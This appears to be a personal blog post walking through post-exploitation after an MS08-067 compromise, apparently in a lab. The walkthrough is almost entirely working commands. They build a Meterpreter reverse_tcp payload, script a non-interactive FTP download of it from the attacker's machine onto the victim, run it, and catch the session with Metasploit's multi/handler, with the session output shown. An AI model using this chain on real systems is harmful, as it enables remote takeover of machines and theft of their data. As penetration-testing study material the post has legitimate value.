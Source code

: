 ```yaml
---
published: true
layout: post
title: Meterpreter up and running post exploitation
---
```



I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.  

Attacker:  Start the ftp service on my attacking machine

    service pure-ftpd start

Attacker:  Create a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory

    msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
    
Victim:  Exploit MS08-067 refer to 

http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/

Victim:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands:

    echo open 192.168.30.36> ftp.txt
    echo your_username>> ftp.txt
    echo your_password>> ftp.txt
    echo binary>> ftp.txt
    echo get iambad.exe>> ftp.txt
    echo bye>> ftp.txt

Victim:  Execute the ftp command passing the ftp.txt as a parameter

    ftp -s:ftp.txt

Attacker:  Start msfconsole on attacking machine

    msfconsole
    
Attacker:  Start multi/handler, set LHOST, set LPORT, and start handler

    msf > use exploit/multi/handler
    msf exploit(handler) > set LHOST 192.168.30.36
    msf exploit(handler) > set LPORT 443
    msf exploit(handler) > run
    [*] Started reverse handler on 192.168.30.36:443 
    [*] Starting the payload handler...
    
Victim:  Execute payload

    iambad.exe

Attacker:  Meterpreter session obtained

    [*] Sending stage (770048 bytes) to 192.168.31.205
    [*] Meterpreter session 1 opened (192.168.30.36:443 -> 192.168.31.205:2707) at 2015-06-05 08:06:04 -0400
